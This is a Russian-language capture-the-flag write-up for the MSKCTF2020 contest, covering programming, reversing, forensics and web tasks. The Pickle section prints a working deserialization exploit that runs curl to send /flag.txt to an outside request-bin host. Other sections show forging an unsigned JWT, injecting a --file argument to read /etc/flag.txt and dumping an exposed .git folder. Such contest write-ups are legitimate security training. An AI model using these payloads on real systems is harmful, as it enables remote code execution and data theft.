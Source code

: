 # MSKCTF2020
![](https://sun1-91.userapi.com/D9by1Coj-CT6hXyTEAe4YtdzOYMMGBmd72Rv_Q/IuaWVh4wIYY.jpg)
<details>
    <summary><b>More-less [PPC]</b></summary>
    <br>
Подключаемся по `nc` к заданию и видим, что от нас требуют угадать число при помощи бинарного поиска, реализацию которого можно написать на python.
</details>
<details>
    <summary><b>Funny Farm [PPC]</b></summary>
    <br>
Прочитав условие задачи можно понять, что это знаменитая игра быки и коровы (она же Mastermind). Существует много способов решения, здесь использовано дерево исходов.
</details>
<details> 
    <summary><b>Simple [RE]</b></summary>
    <br>
Запустив несколько раз исполняемый файл, приходим к выводу, что зашифрованное значение символа не зависит от последующих. Значит, можно перебирать флаг посимвольно, сверяясь с содержимым файла `output.txt`.
</details>
<details> 
    <summary><b>Keycap [MISC]</b></summary>
    <br>
Изучив `dump.pcap` с помощью wireshark, понимаем, что перед нами находится usb capture. По запросу "ctf usb capture" находим скрипт https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB/ и запускаем: `python ./script.py dump.pcap`.
Вывод:


`[+] Found : keycap.tasks.2020.ctf.cs.msu.ru<RET>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZXRGbGFnIjoiVHJ1ZSIsInNob3dGbGFnIjoiRmFsc2UifQ.<RET>`


Видим url и JWT токен. Пробуем отправить токен в форму на http://keycap.tasks.2020.ctf.cs.msu.ru и получаем ответ


>Flag is already set!


Разбираемся в чем дело. Пробуем раздекодить токен в base64 - `{"typ":"JWT","alg":"none"}.{"setFlag":"True","showFlag":"False"}`. Видим, что токен ничем не подписан и его можно изменять как хочется. Если установить `{"setFlag":"False","showFlag":"True"}` и сдать вновь полученный токен, сервис отдаст флаг.
</details>
<details> 
    <summary><b>Display I,II [MISC]</b></summary>
    <br>
Просмотрев гифку замечаем, что считыванию qr кода мешают пиксели, которые не меняются на протяжении всей гифки. Значит нужно собрать QR код учитывая их расположение.

Прежде всего, гифку надо разбить по кадрам на картинки в формате jpg (для работы с OpenCV). Это делается с помощью онлайн конвертеров. Теперь можно приступать к написанию скрипта.

Открываем любое изображение из папки с кадрами гифки. Оно будет испольховаться для создания маски изменяющихся пикселей. Затем берем выборку кадров гифки(я взял кадры с кодом, но по сути можно взять любые другие, важно количество). Проходимся по выборке и ищем пиксели, которые от кадра к кадру меняются и отмечаем их на изображении-маске зеленым цветом. После завершения  анализа выборки, получаем изображение-маску, где зеленым отмечены пиксели не подверженные помехам. Открываем изображение, в которое будет записываться итоговый код, определяем область куда он будет записываться и обводим эту область белой рамкой, тк отступ вокруг кода является обязательным условием для сканирования(как выяснилось, хватило верхнего и  правого отступа). Далее берем выборку кадров с проходом qr кода, находим координаты кода на первой картинке и на сколько пискелей код сдвигается с каждым кадром. Учитывая это, анализируем в каждом изображении область в которой находится код следующим образом: если пикслель кода совпадает с зеленым пикселем маски, то переносим этот пиксель на итоговое изображение, учитывая его цвет для создания черно белого кода. Проанализировав таким образом всю выборку прохода кода, получаем готовый читаемый код. Скрипт работает как для Display I, так и для Display II.
</details>
<details> 
    <summary><b>Pickle [WEB]</b></summary>
    <br>
Сразу после прочтения названия таска становится понятно, что он будет связан с "опасной" сериализацией в модуле pickle.

Немного осмотрев сервис, понимаем, что у нас есть возможность кастомизировать внешний вид текста на главной странице путем изменения параметров на /customize, которые в свою очередь сохраняются в куках. На этой же странице и происходит сериализация. Теперь нужно написать/нагуглить эксплойт. 

В интернете достаточно примеров эксплойтов, однако в процессе эксплуатации становится понятно, что некоторые модули(например, builtins) забанены, нужно искать другие пути. 

На странице документации пикла узнаем о возможности использования разных протоколов(0-5), отличающихся своей новизной. Попробуем наш эксплойт с 0ым протоколом.

```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl  http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Для этого пытаемся сделать eval(), c помощью которого импортируем os и вызваем system(). Следующая часть пейлоада - попытка отправить себе запрос на request-bin через curl. Копируем полученный base64 и заменяем значение куки custom_style.

Получаем запрос, значит эксплойт сработал. Осталось отправить себе флаг, однако для этого нужно понять, где он лежит. Пробуем несколько раз, получаем флаг. Для отправки файла себе я использовал опцию --data-binary.


#### Финальный эксплойт:
```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl --data-binary @"/flag.txt" http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```
#### В результате должен прийти такой запрос:

![Request example](https://github.com/WATyag/MSKCTF2020/blob/master/pickle/requestbin.jpg)
</details>
<details> 
    <summary><b>Beta release [WEB]</b></summary>
    <br>
Таск представляет из себя сервис, целью которого видимо является троллинг участников, так как при попытке получить абсолютно любой флаг мы получаем один и тот же ответ - "Такой флаг еще не подвезли :(". Что же, попробуем разобраться и найти настоящий флаг, утерев нос обидчикам!

Первичный анализ обширных возможностей таска не дал нам никаких интересных результатов, поэтому попробуем поискать "поглубже", используя dirsearch.

`python3 dirsearch.py -u http://beta-release.tasks.2020.ctf.cs.msu.ru/ -e php html js`

```
Target: http://beta-release.tasks.2020.ctf.cs.msu.ru/

[14:44:22] Starting:
[14:44:22] 400 -  182B  - /%2e%2e/google.com
[14:44:22] 200 -   12B  - /.git/COMMIT_EDITMSG
[14:44:22] 200 -  137B  - /.git/config
[14:44:22] 200 -   73B  - /.git/description
[14:44:22] 200 -  691B  - /.git/index
[14:44:22] 200 -   23B  - /.git/HEAD
[14:44:22] 200 -  250B  - /.git/info/exclude
[14:44:22] 200 -   10KB - /.git/logs/refs/heads/master
[14:44:22] 200 -   56KB - /.git/logs/HEAD
[14:44:22] 200 -   41B  - /.git/refs/heads/master
[14:44:22] 200 -   54B  - /.gitignore
[14:44:22] 200 -   54B  - /.gitignore/
[14:44:27] 200 -    2KB - /contacts
```

Проанализировав результаты понимаем, что разработчики "забыли" удалить гит репозиторий. Попробуем сдампить его, для этого воспользуемся тулзой git-dumper. Далее войдя в папку со скачанным репозиторием, посмотрим историю коммитов:


`git log`

Листая историю коммитов замечаем следующее:

```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования
```

Интересно, посмотрим сами изменения:

`git show  e9d0319984c8ea23b61ebd83da25507c973d19d1`


```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования

diff --git a/main.py b/main.py
index cf4d6c8..1a127ae 100644
--- a/main.py
+++ b/main.py
@@ -1,22 +1,41 @@
 from flask import Flask
 from flask import render_template
+from flask import request

 app = Flask(__name__, template_folder="templates/", static_folder="./")

+flags = {
+    'alpha-version': 'MSKCTF{l34v1g_g1t_f0ld3r_1s_t00_b4d_id34_l0l}',
+    'keycap': '',
+    'happy_new_rtfm': '',
+    'Le Coq': '',
+    'This is the way': '',
+    'pickle': '',
+    'librecloud': '',
+    'corehard': '',
+    'crypto-300': '',
+    'Turtle': '',
+    'Funny Farm ': ''
+}
+
...
```
</details>
<details> 
    <summary><b>Happy new RTFM [WEB]</b></summary>
    <br>
На главной странице таска нас встречает обратный отсчет до нового года. Попробуем разобраться как он работает. 

Файл utils.js отправляет запрос /get_date.php, где через  переменную fmt указывает формат времени. get_date.php возвращает текущее время в заданном формате, после чего расчитывается оставшееся время до нового года и запускается таймер.

В самом таймере нет ничего интересного, а вот возможность передавать данные get_date.php выглядит перспективно.

Отправляя туда всякий шлак в попытках разобраться, что именно выполняет данный скрипт, получаем следующий ответ:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:41:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.0
Content-Length: 68

date: invalid option -- 'l'
Try 'date --help' for more information.
```

Тут же понимаем, что это вывод date Linux. Попробуем отправить --help:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:45:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 4704
Connection: close
X-Powered-By: PHP/7.4.0
Vary: Accept-Encoding

Usage: date [OPTION]... [+FORMAT]
  or:  date [-u|--utc|--universal] [MMDDhhmm[[CC]YY][.ss]]
Display the current time in the given FORMAT, or set the system date.

Mandatory arguments to long options are mandatory for short options too.
  -d, --date=STRING          display time described by STRING, not 'now'
      --debug                annotate the parsed date,
                              and warn about questionable usage to stderr
  -f, --file=DATEFILE        like --date; once for each line of DATEFILE
  -I[FMT], --iso-8601[=FMT]  output date/time in ISO 8601 format.
                               FMT='date' for date only (the default),
                               'hours', 'minutes', 'seconds', or 'ns'
```

Замечаем опицию -f , умеющую читать дату из файла. Это выглядит как то, что нам нужно. Отправим --file=/etc/flag.txt :

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Happy%20new%20RTFM/burp.jpg)
</details>
<details> 
    <summary><b>Incident [WEB]</b></summary>
    <br>
Исследуя таск замечаем, что подключеный к странице not-a-flag.js, который блокируется правилами csp. Также делается запрос на /csp-reports, где помимо прочего передается uri заблокированного файла. Ответ на этот запрос таков:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:12:58 GMT
Content-Type: text/plain
Content-Length: 96
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /not-a-flag.js with content 'This file does not contain a flag' is blocked by CSP
```

Стоит отметить, что при попытке перейти на /not-a-flag.js таск возвращает 404. Попробуем перехватить запрос через burp и заменить "not-a-flag.js" на что-то более интересное. 

Пробуем 'flag.txt', получаем:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:22:43 GMT
Content-Type: text/plain
Content-Length: 58
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /flag.txt with content '' is blocked by CSP
```

Быть может, flag.js? Ведь изначально к странице подключался javascript файл. Ответ:

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Incident/burp.jpg)
</details>
<details> 
    <summary><b>Truth News [WEB/OSINT]</b></summary>
    <br>
    
*До хинта*

Тупим, тыкаемся во все, что попадется на глаза, толком не понимаем, что нужно делать.

*Хинт* 

`Hint: Мы знаем, что автор сайта любит снимать челленджи для соцсетей и плохо запоминает пароли.`

*После хинта*

 Понимаем очевиднейший(учитывая содержаение сайта) намек на тикток, ищем там пользователя с таким же ником(covidbuster), находим в его профиле видео, где совершенно случайно палится логин и пароль(login - covidbuster; password - CTF_p@ssw0rd):
 
 ![Tik-Tok](https://github.com/WATyag/MSKCTF2020/blob/master/Truth%20News/tikitikitok.jpg)
 
 Учитывая, что таск написан с использованием wordpress, нетрудно догадаться, что перед нами логин и пароль от админки. Ищем ее через dirsearch или гуглим дефолтный роут(его также можно найти на /?page_id=2) - "/wp-admin".

 Заходим в админку, замечаем установленный плагин WP File Manager. Меняем в его настройках "Public Root Path" на "/", находим флаг.
</details>
<details>
    <summary><b>You've got mail [FOREN]</b></summary>
    <br>
Нам дан файл без расширения. Открыв его в текстовом редакторе (notepad++ as example) видим перед собой, что-то по типу дампа почты.

Просмотрев дамп, находим base64 от архива:
```
 filename="attach.zip"

UEsDBBQACQAIAFZidVBv9f5ahwAAAHkAAAAIAAAAZmxhZy50eHQ45c3zHhuqVNivOf80djnC
tmkmwiSCTELSf0iFP6kEGDd3NlChMcSk0q/kN9oCTYH1NZSli0d2DS22xNVt/wLwLEwkwxdN
CXNajXmLRN5FxD3C2/Br6aCFvpylLx6y245zkB0cd8u9ICEVoiMhjITSIsAsnarMCK8IUwZX
MLNAehKGf0nkGkFQSwcIb/X+WocAAAB5AAAAUEsBAh8AFAAJAAgAVmJ1UG/1/lqHAAAAeQAA
AAgAJAAAAAAAAAAgAAAAAAAAAGZsYWcudHh0CgAgAAAAAAABABgAmQOVuGH/1QGE2Utw6v7V
AYTZS3Dq/tUBUEsFBgAAAAABAAEAWgAAAL0AAAAAAA==
--------------100AC5362A69E32B7F7DE353--
```

Достаем архив из base64 с помощью сайта https://base64.guru/converter/decode/file

В этом архиве видим один файл flag.txt, но он запаролен.

Однако в дампе было сообщение:

```
Content-Transfer-Encoding: 8bit

╨Э╨░╤Б╤В╤Г╨┐╨╕╨╗ ╤Б╨╡╨╖╨╛╨╜ ╨┐╨╡╤А╨╡╨▓╨╡╤А╨╜╤Г╨▓╤И╨╕╤Е╤Б╤П ╨┐╨╕╨╜╨│╨▓╨╕╨╜╨╛╨▓, ╨▓╤Л╨┤╨▓╨╕╨│╨░╤О╤Б╤М ╨╜╨░ ╨┐╨╛╨▒╨╡╤А╨╡╨╢╤М╨╡
╨┐╨╡╤А╨╡╨▓╨╛╤А╨░╤З╨╕╨▓╨░╤В╤М ╨╕╤Е ╨╛╨▒╤А╨░╤В╨╜╨╛.

╨С╨╡╤А╤Г ╨╝╨░╨╗╤Г╤О ╨╗╨╛╨┐╨░╤В╤Г ╨╕ ╨╗╤Л╨╢╨╕.

╨Я╤А╨╕╨╗╨░╨│╨░╤О ╤А╨╡╨╖╨╡╤А╨▓╨╜╤Г╤О ╨║╨╛╨┐╨╕╤О ╨╝╨╛╨╕╤Е ╨┤╨╛╨║╤Г╨╝╨╡╨╜╤В╨╛╨▓ ╨╜╨░ ╤Б╨╗╤Г╤З╨░╨╣, ╨╡╤Б╨╗╨╕ ╤Б╨╛ ╨╝╨╜╨╛╨╣ ╤З╤В╨╛-╤В╨╛
╤Б╨╗╤Г╤З╨╕╤В╤Б╤П. ╨Я╨░╤А╨╛╨╗╤М ╨║ ╨░╤А╤Е╨╕╨▓╤Г - ╨╕╤Б╤В╨╕╨╜╨░


╨Т╨░╤И╨░ ╨Э╨░╤В╨░╤И╨░.
```

С помощью сайта  http://www.online-decoder.com/ru переводим сообщение в utf-8:

```
Наступил сезон перевернувшихся пингвинов, выдвигаюсь на побережье
переворачивать их обратно.

Беру малую лопату и лыжи.

Прилагаю резервную копию моих документов на случай, если со мной что-то
случится. Пароль к архиву - истина


Ваша Наташа.
```

Вводим пароль `истина` и получаем файл с флагом.

#### Флаг: MSKCTF{the_truth_i$_0uT_tHeRe_haha}

</details>
<details>
    <summary><b>Dive into the cool story [FOREN/STEG]</b></summary>
    <br>
    
В таске `You've got mail` мы вместе с флагом получаем ссылку на google disk.

Качаем оттуда архив, в котором находится папка `Мои документы`.

В ней находится множество фотографий с пингвинами и несколько word файлов.

Протыкав все файлы, я заметил, что для файла `TWIMC.docx` предпросмотр не работает, хотя с другими .docx файлами все в порядке.

![Предпросмотр не работает](https://github.com/WATyag/MSKCTF2020/blob/master/Dive%20into%20the%20cool%20story/TWIMC.png)

Открыв это файл в текстовом редакторе, можно увидеть сигнатуру `PK`, а это значит, что перед нами архив.

Изменим расширение на `.zip` и посмотрим, что же внутри, а там нас ждал файл `flag.txt`.

#### Флаг: MSKCTF{psst_wanna_d1ve_int0_c001_st0ry}
    
</details>
<details>
    <summary><b>MSKCTF++ [RE]</b></summary>
    <br>
    
По описанию языка `MSKCTF++` стало понятно, что это brainfuck c измененными символами.

Сделаем замену на более привычные для этого языка символы.

Теперь перед нами скрипт на brainfuck, который на некотором моменте начинает очень долго работать. (использую https://copy.sh/brainfuck/)

Точка в языке brainfuck отвечает за вывод символа.

Разобьем код по "." и увидим, что медленная работа начинается с тех символов, когда большое количество раз повторяется подстрока `[>-`.

![Вrainfuck](https://github.com/WATyag/MSKCTF2020/blob/master/MSKCTF%2B%2B/Brainfuck.png)

`[>-` отвечает за создание цикла с 255 итерациями - это сильно тормозит работы, особенно если таких циклов несколько (нам явно хотели помешать выполнить этот код :D).

Так, давайте заменим `[>-` на `[>+` теперь у нас одна итерация в каждом цикле вместо 255, что должно сильно ускорить наш код.

Попробовав запустить его на https://copy.sh/brainfuck/, получаем молниеносный ответ.

```
Welcome! Here is your flag: MSKCTF{LolKekCheburek}
```

#### Флаг: MSKCTF{LolKekCheburek}
    
</details>
